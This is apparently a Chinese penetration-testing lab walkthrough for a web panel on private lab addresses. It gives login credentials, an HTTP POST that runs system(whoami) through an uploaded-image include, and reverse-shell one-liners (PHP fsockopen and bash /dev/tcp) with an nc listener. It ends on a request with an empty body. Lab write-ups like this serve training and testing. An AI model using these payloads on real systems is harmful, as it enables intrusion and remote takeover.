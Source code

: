 ### 网站账号

```bash
onePiece / luffy_!@#
```

## 命令执行

```bash
POST /panel.php HTTP/1.1
Host: 192.168.70.46
Content-Length: 67
Cache-Control: max-age=0
Origin: http://192.168.70.46
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.46/panel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9d1gbt6tl01gh301ffnjffgn07
Connection: keep-alive

load=/uploaded_images/xxx.png&continue=continue&xxx=system(whoami);
```

![image-20241210163820848](https://image.201068.xyz/assets/16.高级渗透测试实操(寻找立足点)/image-20241210163820848.png)

> www-data

## 反弹shell

### kali监听

```bash
nc -lvnp 4444
```



```bash
php -r '$sock=fsockopen("192.168.70.4",4444);exec("/bin/bash <&3 >&3 2>&3");'

/bin/bash -i >& /dev/tcp/192.168.70.4/4444 0>&1
```

```bash
POST /panel.php HTTP/1.1
Host: 192.168.70.46
Content-Length: 63
Cache-Control: max-age=0
Origin: http://192.168.70.46
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.46/panel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9d1gbt6tl01gh301ffnjffgn07
Connection: keep-alive

```